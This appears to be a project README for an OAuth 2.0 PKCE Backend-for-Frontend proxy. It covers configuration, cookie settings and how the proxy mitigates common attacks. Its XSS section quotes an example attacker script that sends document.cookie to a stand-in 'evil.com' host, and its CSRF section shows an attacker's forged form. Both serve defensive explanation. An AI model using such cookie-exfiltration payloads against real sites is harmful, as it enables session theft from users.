




# OAuth2 Backend for Frontend Proxy

> **Note:** This project is not production-ready yet. It's getting very close, needs proper testing before it can be considered stable. Coming soon.

Reusable Backend-for-Frontend (BFF) proxy with OAuth 2.0 + PKCE authentication. Tokens are stored in HTTP-only cookies, and authenticated requests are proxied to your backend with user context injected as headers.

**Supported providers:** AWS Cognito, Microsoft Entra ID, Keycloak

## Why This Repository Exists

While integrating auth in applications, I struggled to find a complete, production-ready example that:

- Implements OAuth 2.0 + PKCE correctly
- Uses HTTP-only cookies instead of localStorage
- Explains the security implications of each decision
- Works as a reusable proxy for any backend

Most examples I found were either incomplete, used insecure token storage, or lacked proper documentation. This repository aims to fill that gap.

### Common mistakes I've seen (and made)

- Storing the client secret in frontend code (it's called a secret for a reason)
- Storing tokens in localStorage or sessionStorage (vulnerable to XSS)
- Confusion about which token to send to the backend, ID token vs access token
- Complex React state management for token refresh timing
- Missing OAuth state parameter
- Missing PKCE code challenge/verifier
- Not revoking tokens on the auth provider during logout
- Tons of configuration in the frontend project
- Installing 4-5 libraries and stitching them together to make OAuth work on the frontend

**Disclaimer:** This is not a claim that this implementation covers every possible security concern or best practice. I may have missed things. If you know of better implementations or find issues with this approach, contributions and constructive criticism are welcome. Please open an issue or PR explaining what could be improved and why.

### When evaluating any OAuth implementation (including this one), ask if

- Where are tokens stored? Are they vulnerable to XSS attacks?
- Is the client secret exposed?
- Does it use deprecated OAuth flows?
- Is PKCE implemented?
- Is the state parameter used and verified?
- Is the code_challenge parameter used?
- Does it support local development? Not just production where frontend/backend share the same domain
- Does it properly support the listed providers?
- Can you extract custom claims?
- Does it revoke tokens on logout?

## What This BFF Does and Does NOT

**This BFF handles:**

- OAuth 2.0 + PKCE authentication flow with
- Secure token storage in HTTP-only cookies
- Token validation and automatic refresh
- CSRF protection using Double Submit Cookie pattern
- Proxying requests to your backend with user headers

**This BFF does NOT handle:**

- Authorization logic (which routes are public/private)
- Business logic decisions about user permissions
- Role-based access control

Your backend is responsible for authorization, but this is simple work since you don't need to manage the OAuth flow, token validation, refresh, or security vulnerabilities. Just check the presence and value of headers (`X-User-Sub`, `X-User-Email`, etc.) passed by the BFF proxy.

## Table of Contents

- [Why This Repository Exists](#why-this-repository-exists)
  - [Common mistakes I've seen (and made)](#common-mistakes-ive-seen-and-made)
  - [When evaluating any OAuth implementation](#when-evaluating-any-oauth-implementation-including-this-one-ask-if)
- [What This BFF Does and Does NOT](#what-this-bff-does-and-does-not)
- [Architecture](#architecture)
- [Authentication Flow](#authentication-flow)
- [Setup](#setup)
  - [Configure Environment](#configure-environment)
    - [General Configuration](#general-configuration)
    - [AWS Cognito Provider Configuration](#aws-cognito-provider-configuration)
    - [Microsoft Entra ID Provider Configuration](#microsoft-entra-id-provider-configuration)
    - [Keycloak Provider Configuration](#keycloak-provider-configuration)
  - [Using with Your Backend](#using-with-your-backend)
  - [Post-Login Redirect](#post-login-redirect)
- [Cookies Security](#cookies-security)
  - [Auth Cookies](#auth-cookies-after-successful-login)
  - [OAuth State Cookies](#oauth-state-cookies-during-login-flow)
  - [CSRF Token Cookie](#csrf-token-cookie-after-successful-login)
- [Vulnerabilities Mitigations](#vulnerabilities-mitigations)
  - [XSS (Cross-Site Scripting)](#xss-cross-site-scripting)
  - [CSRF (Cross-Site Request Forgery)](#csrf-cross-site-request-forgery)
  - [Token Theft via Man-in-the-Middle](#token-theft-via-man-in-the-middle)
  - [JWT Signature Verification](#jwt-signature-verification)
  - [Audience Claim Validation](#audience-claim-validation)
  - [Sub Claim Validation](#sub-claim-validation)
  - [Token Consistency](#token-consistency)
  - [Authorization Code Interception](#authorization-code-interception)
  - [State Parameter](#state-parameter)
  - [Nonce Parameter](#nonce-parameter)
- [License](#license)
- [TODOs](#todos)

## Architecture



1. Frontend calls BFF for all requests
2. BFF handles OAuth flow (`/auth/*` routes)
3. BFF proxies business logic requests (`/api/*`) to backend
4. BFF injects user headers (`X-User-Sub`, `X-User-Email`, and configurable custom claims) before proxying
5. Backend reads user info from headers using simple checks like decorators (no token validation needed)

## Authentication Flow

PKCE prevents authorization code interception attacks by introducing a cryptographic challenge:



1. **State**: Random string generated by BFF stored in HTTP-only cookie and sent to Identity Provider
2. **Code Verifier**: Random string generated by BFF stored in HTTP-only cookie
3. **Code Challenge**: SHA-256 hash of code verifier sent to Identity Provider in authorization URL
4. **Login**: BFF redirects to the Identity Provider
   - `state` and `code_challenge` sent to the Identity Provider in authorization URL
   - The Identity Provider stores both values
5. **Login Callback**: BFF validates state and exchanges code for tokens
   - Validates: URL `state` parameter === `oauth_state` cookie (CSRF protection)
   - Sends `code_verifier` to Identity Provider during token exchange
   - Identity Provider validates: SHA256(code_verifier) === stored code_challenge
   - If both validations pass: Issue tokens
   - If either fails: Reject request

## Setup

### Configure Environment

#### General Configuration

| Variable                          | Description                        | Example                                              | Required |
| --------------------------------- | ---------------------------------- | ---------------------------------------------------- | -------- |
| `REDIRECT_URI`                    | Login callback URL                 | `http://localhost:3000/auth/callback`                | Yes      |
| `LOGOUT_REDIRECT_URI`             | Logout redirect URL                | `http://localhost:3000/auth/signout-callback`        | Yes      |
| `FRONTEND_REDIRECT_URL`           | Frontend redirect URL              | `http://localhost:8080`                              | Yes      |
| `BACKEND_URL`                     | Backend service URL                | `http://localhost:4000`                              | Yes      |
| `CUSTOM_CLAIMS`                   | JWT claims to forward              | `custom:groups,cognito:groups`                       | No       |
| `JWKS_CACHE_MAX_AGE_MS`           | JWKS cache duration (ms)           | `600000`                                             | Yes      |
| `JWT_ALGORITHM`                   | JWT signature algorithm            | `RS256`, `RS384`, `RS512`, `ES256`, `ES384`, `ES512` | Yes      |
| `LOG_LEVEL`                       | Logging level                      | `trace`, `debug`, `info`, `warn`, `error`, `fatal`   | Yes      |
| `TOKEN_REFRESH_THRESHOLD_SECONDS` | Token refresh threshold in seconds | `300`                                                | Yes      |
| `AUTH_PROVIDER`                   | Authentication provider            | `cognito`, `entra`, `keycloak`                       | Yes      |

#### AWS Cognito Provider Configuration

Required only when `AUTH_PROVIDER=cognito`:

| Variable                          | Description           | Example                                                                       | Required |
| --------------------------------- | --------------------- | ----------------------------------------------------------------------------- | -------- |
| `COGNITO_AUTH_DOMAIN_PREFIX`      | Cognito domain prefix | `my-app`                                                                      | Yes      |
| `COGNITO_USER_POOL_CLIENT_ID`     | App client ID         | `abc123...`                                                                   | Yes      |
| `COGNITO_USER_POOL_CLIENT_SECRET` | App client secret     | `xyz789...`                                                                   | Yes      |
| `COGNITO_AWS_REGION`              | AWS region            | `us-east-1`                                                                   | Yes      |
| `COGNITO_USER_POOL_ID`            | User pool ID          | `us-east-1_ABC123`                                                            | Yes      |
| `COGNITO_AWS_ENDPOINT`            | AWS Cognito endpoint  | `https://cognito-idp.us-east-1.amazonaws.com` or `http://bff-localstack:4566` | Yes      |
| `COGNITO_OAUTH_SCOPES`            | OAuth 2.0 scopes      | `openid email profile`                                                        | Yes      |

#### Microsoft Entra ID Provider Configuration

Required only when `AUTH_PROVIDER=entra`:

| Variable              | Description      | Example                                   | Required |
| --------------------- | ---------------- | ----------------------------------------- | -------- |
| `ENTRA_TENANT_ID`     | Tenant ID        | `common`, `organizations`, or tenant GUID | Yes      |
| `ENTRA_CLIENT_ID`     | Application ID   | `abc123...`                               | Yes      |
| `ENTRA_CLIENT_SECRET` | Client secret    | `xyz789...`                               | Yes      |
| `ENTRA_OAUTH_SCOPES`  | OAuth 2.0 scopes | `openid email profile`                    | Yes      |

#### Keycloak Provider Configuration

Required only when `AUTH_PROVIDER=keycloak`:

| Variable                     | Description                                                                      | Example                        | Required |
| ---------------------------- | -------------------------------------------------------------------------------- | ------------------------------ | -------- |
| `KEYCLOAK_BASE_URL`          | Keycloak base URL                                                                | `https://keycloak.example.com` | Yes      |
| `KEYCLOAK_INTERNAL_BASE_URL` | Internal Keycloak URL, for Docker/K8s where BFF needs different URL than browser | `http://keycloak:8080`         | No       |
| `KEYCLOAK_REALM`             | Realm name                                                                       | `my-realm`                     | Yes      |
| `KEYCLOAK_CLIENT_ID`         | Client ID                                                                        | `my-app`                       | Yes      |
| `KEYCLOAK_CLIENT_SECRET`     | Client secret                                                                    | `abc123...`                    | Yes      |
| `KEYCLOAK_OAUTH_SCOPES`      | OAuth 2.0 scopes                                                                 | `openid email profile`         | Yes      |

### Using with Your Backend

BFF works with any backend technology. Your backend receives user information via headers.

BFF uses **optional** authentication for `/api/*` routes. If user is authenticated, user headers are injected and forwarded to backend.

**Standard headers (when authenticated):**

- `X-User-Sub` - User's unique identifier
- `X-User-Email` - User's email address

**Custom headers:**

BFF can extract and forward other JWT custom claims as HTTP headers.

```env
CUSTOM_CLAIMS=custom:groups,cognito:groups,cognito:username
```

- `custom:groups` will be forwared in the `X-User-custom-groups` header

### Post-Login Redirect

The BFF supports redirecting users back to their original page after login using the `returnTo` query parameter:

```javascript
window.location.href = `/auth/login?returnTo=${encodeURIComponent(currentPath)}`;
```

## Cookies Security

**Why not localStorage or sessionStorage?**

| Storage           | Accessible by JS | XSS Vulnerable | Sent Automatically |
| ----------------- | ---------------- | -------------- | ------------------ |
| localStorage      | Yes              | Vulnerable     | No                 |
| sessionStorage    | Yes              | Vulnerable     | No                 |
| HTTP-only cookies | No               | Protected      | Yes                |

If an attacker injects malicious JavaScript (XSS), they can steal tokens from localStorage/sessionStorage but cannot access HTTP-only cookies.

All cookies use `httpOnly: true`, making them inaccessible to JavaScript.
All cookies use `secure: true`, only sent over HTTPS.

Cookies use different `sameSite` values based on their purpose:

| Value    | Cross-site requests                | Use case                       |
| -------- | ---------------------------------- | ------------------------------ |
| `strict` | Never sent                         | Auth tokens (maximum security) |
| `lax`    | Sent on top-level navigation (GET) | OAuth state (allows callback)  |
| `none`   | Always sent                        | Third-party integrations       |

### Auth Cookies (after successful login)

- id_token
- access_token
- refresh_token

Auth tokens use `strict`

### OAuth State Cookies (during login flow)

- oauth_state
- oauth_nonce
- code_verifier
- return_to

Theese use `lax` to allow Identity Provider to redirect back to `/auth/callback` with cookies intact.

### CSRF Token Cookie (after successful login)

- csrf_token

This cookie uses `httpOnly: false` (intentionally readable by JavaScript), `secure: true`, and `sameSite: strict`.

The CSRF token uses the Double Submit Cookie pattern:

1. BFF generates a random token and sets it as a cookie after login
2. Frontend reads the cookie value via JavaScript and sends it as `X-CSRF-Token` header on every request to `/api/*`
3. BFF middleware validates that the header value matches the cookie value on any authenticated request (if any auth cookie is present)

The token is renewed automatically during token refresh and cleared on logout.

**Why `httpOnly: false`?**

Unlike auth tokens, the CSRF cookie must be readable by JavaScript so the frontend can include it as a request header. This is safe because:

- The CSRF token is not an auth credential, knowing it alone doesn't grant access
- An attacker on a different origin cannot read the cookie value (Same-Origin Policy)
- The attacker's site can cause the browser to send the cookie automatically, but cannot read it to set the `X-CSRF-Token` header

```javascript
// Frontend reads the CSRF cookie and sends it as a header on every /api/* request
const csrfToken = document.cookie.match(/csrf_token=([^;]*)/)?.[1];
fetch("/api/data", {
  method: "POST",
  credentials: "include",
  headers: { "X-CSRF-Token": csrfToken },
});
```

## Vulnerabilities Mitigations

### XSS (Cross-Site Scripting)

**Attack:** Attacker injects malicious JavaScript to steal tokens.

**Prevention:** HTTP-only cookies cannot be accessed by JavaScript.

```javascript
// Attacker's injected script
<script>fetch('https://evil.com/steal?token=' + document.cookie);</script>

// Result: Cannot access HTTP-only cookies
```

### CSRF (Cross-Site Request Forgery)

**Attack:** Attacker tricks user into making unwanted requests from a different origin.

```html
<!-- Attacker's site -->
<form action="http://localhost:3000/api/transfer" method="POST">
  <input name="amount" value="1000" />
</form>
```

**Prevention (two layers):**

1. **SameSite=strict cookies** - Auth cookies are never sent on cross-site requests
2. **Double Submit Cookie pattern** - Any authenticated request requires a valid `X-CSRF-Token` header that matches the `csrf_token` cookie.

The attacker's site can cause the browser to send the `csrf_token` cookie automatically, but cannot read its value. Without the value, the attacker cannot correctly set `X-CSRF-Token` header.

The BFF validates the match using `crypto.timingSafeEqual` to prevent timing attacks.

### Token Theft via Man-in-the-Middle

**Attack:** Attacker intercepts network traffic to steal tokens.

**Prevention:** `secure: true` ensures cookies only sent over HTTPS.

### JWT Signature Verification

Every request validates the JWT signature using the Identity Provider's public keys (JWKS).

### Audience Claim Validation

BFF verifies the `aud` (audience) claim in the ID token to ensure it matches the client ID.
This prevents tokens issued for other applications from being accepted.

**Access tokens are not audience-validated for now.**

### Sub Claim Validation

BFF validates that the `sub` (subject) claim matches between ID token and access token.
The `sub` claim uniquely identifies the user.
This prevents token substitution attacks and ensures ID token and access token belong to the same user.

### Token Consistency

The BFF always sets `id_token` and `access_token` together. If only one is present in a request, the session is considered tampered. All cookies are cleared and the request is rejected.

### Authorization Code Interception

**Attack:** Attacker intercepts OAuth authorization code.

**Prevention:** PKCE requires `code_verifier` that only BFF has.

```txt
Attacker intercepts: code=ABC123
Attacker tries: POST /oauth2/token with code=ABC123
Identity Provider requires: code_verifier (attacker doesn't have it)
```

#### Normal login with PKCE (no attack)



#### Mallory steals the code (PKCE saves the day)



### State Parameter

The `state` parameter prevents some attacks during OAuth flow:

1. BFF generates random `state` value (e.g., `"STATE_VAL_123"`)
2. Stores in HTTP-only cookie with `SameSite=lax`
3. Sends same `state` to Identity Provider in authorization URL
4. Identity Provider returns same `state` in callback URL
5. BFF validates `state` from URL matches `state` from cookie

This ensures the callback is completing a login flow that YOUR server initiated, not one an attacker started.
Attacker can create any URL with any `state` value, but attacker cannot set cookies in victim's browser.

Without state verification, an attacker can exploit the OAuth flow:

1. Attacker initiates OAuth login on their own browser, gets authorization code
2. Attacker tricks you into visiting: `http://localhost:3000/?code=ATTACKERS_CODE`
3. Your browser exchanges the attacker's code for tokens
4. You're now logged in as the attacker, anything you do is linked to their account

### Nonce Parameter

The `nonce` parameter is used because OAuth providers support it as an additional security measure.

**How it works:**

1. BFF generates random `nonce` value before login
2. Stores in HTTP-only cookie
3. Sends `nonce` to Identity Provider in authorization URL
4. Identity Provider includes `nonce` as a claim in the ID token
5. BFF validates `nonce` in ID token matches `nonce` in cookie (only during initial login callback)

**Questions about its necessity:**

This implementation already has multiple layers of protection:

- **PKCE**
- **State parameter**
- **HTTP-only cookies**
- **JWT signature verification**

Given these existing protections, questions arise about whether nonce provides additional security value or is redundant. The nonce is included because the OpenID Connect specification recommends it and providers support it, but its practical benefit in this specific architecture remains unclear. It may serve as defense in depth.

## License

MIT

## TODOs

- [x] Add CSRF Tokens
- [ ] Expllin why an atcker can not set correctly the CSRF Token
- [ ] Optimize logging for production: Move `pino-pretty` to devDependencies and use JSON logging (check `NODE_ENV`, remove pino-pretty transport in production, update Dockerfile to set `ENV NODE_ENV=production`)
- [ ] Check the cognito endpoints and their specification
- [ ] Use code also in the logout endpoints, seen somewhere
- [ ] Add nbf (not before) claim validation - ensures token isn't used before its valid time
- [ ] Add iat (issued at) claim validation - helps detect token age anomalies
- [ ] Learn more about OpenID Connect and refactor the related methods
- [ ] Learn the protection using `nonce` and check if implemented correctly (should prevent reply attacks)
- [ ] Implement Refresh Token Reuse Detection - if any refresh token in the chain is reused the entire chain is invalidated. See: [Auth0 - Refresh Token Rotation](https://auth0.com/docs/secure/tokens/refresh-tokens/refresh-token-rotation), [RFC 6749 Section 10.4](https://datatracker.ietf.org/doc/html/rfc6749#section-10.4), [IETF OAuth Security Best Current Practice](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics#name-refresh-token-protection)
